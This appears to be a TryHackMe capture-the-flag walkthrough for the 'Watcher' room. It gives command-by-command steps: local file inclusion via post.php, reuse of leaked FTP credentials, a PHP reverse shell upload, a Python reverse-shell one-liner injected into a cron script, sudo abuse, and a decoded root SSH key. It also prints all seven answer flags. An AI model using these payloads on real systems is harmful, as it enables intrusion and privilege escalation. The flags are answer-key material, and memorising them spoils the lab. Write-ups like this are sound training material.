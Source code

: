 # <div align="center">[Watcher](https://tryhackme.com/r/room/watcher)</div>
<div align="center">A boot2root Linux machine utilising web exploits along with some common privilege escalation techniques.</div>

<div align="center">
<img src="https://github.com/user-attachments/assets/7d7d90e8-a152-4829-bb39-6fb14cab3727" height="200"></img>
</div>

# Task 1. Watcher

Work your way through the machine and try to find all the flags you can!

Flag 1

* ```nmap -sSCV <IP>```
* ```curl -s http://<IP>/robots.txt```
* ```curl -s http://<IP>/flag_1.txt```
```
FLAG{robots_dot_text_what_is_next}
```
Flag 2
* ```curl -s http://<IP>/secret_file_do_not_read.txt```
* ```curl -s http://<IP>/post.php?post=/etc/passwd```
* ```curl -s http://<IP>/post.php?post=secret_file_do_not_read.txt```
* ```ftp <IP>```
* ```ftpuser:givemefiles777```
* ```ls -la```
* ```get flag_2.txt -```
```
FLAG{ftp_you_and_me}
```
Flag 3
* ```ftp <IP>```
* ```ftpuser:givemefiles777```
* ```cd files```
* ```ls -la```
* ```put rev.php```
* ```ls -la```
* ```pwd```
* ```exit```
* ```curl -s http://<IP>/post.php?post=/home/ftpuser/ftp/files/rev.php```
* ```nc -nlvp 4444```
* ```python3 -c "import pty;pty.spawn('/bin/bash')"```
* ```id```
* ```find / -type f -name flag_3.txt 2>/dev/null```
* ```cat /var/www/html/more_secrets_a9f10a/flag_3.txt```
```
FLAG{lfi_what_a_guy}
```
Flag 4
* ```find / -type f -name flag_4.txt -exec ls -l {} + 2>/dev/null```
* ```sudo -l```
* ```sudo -u toby /bin/bash```
* ```cat /home/toby/flag_4.txt```
```
FLAG{chad_lifestyle}
```
Flag 5
* ```find / -type f -name flag_5.txt -exec ls -l {} + 2>/dev/null```
* ```cat note.txt```
* ```cat /etc/crontab```
* ```ls -l /home/toby/jobs/cow.sh```
* ```cat > /home/toby/jobs/cow.sh << EOF```
* ```#!/bin/bash```
* ```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'```
* ```EOF```
* ```nc -nlvp 4444```
* ```python3 -c "import pty;pty.spawn('/bin/bash')"```
* ```cd /home/mat```
* ```cat flag_5.txt```
```
FLAG{live_by_the_cow_die_by_the_cow}
```
Flag 6
* ```find / -type f -name flag_6.txt -exec ls -l {} + 2>/dev/null```
* ```cat /home/mat/note.txt```
* ```sudo -l```
* ```cat /home/mat/scripts/will_script.py```
* ```cat cmd.py```
* ##### ```nano```[cmd.py](https://github.com/Esther7171/THM-Walkthroughs/blob/main/Room/Watcher/cmd.py)  
* ```sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1```
* ```nc -nlvp 5555```
* ```python3 -c "import pty;pty.spawn('/bin/bash')"```
* ```id```
* ```cd /home/will```
* ```cat flag_6.txt```
```
FLAG{but_i_thought_my_script_was_secure}
```
Flag 7
* ```find / -type f -name flag_7.txt -exec ls -l {} + 2>/dev/null```
* ```id```
* ```find / -type f -group adm -exec ls -l {} + 2>/dev/null```
* ```cat /opt/backups/key.b64 | base64 -d > /home/will/ssh.key```
* ```chmod 600 ssh.key```
* ```ssh -i ssh.key root@<IP>```
* ```cd root```
* ```cat flag_7.txt```
```
FLAG{who_watches_the_watchers}
```
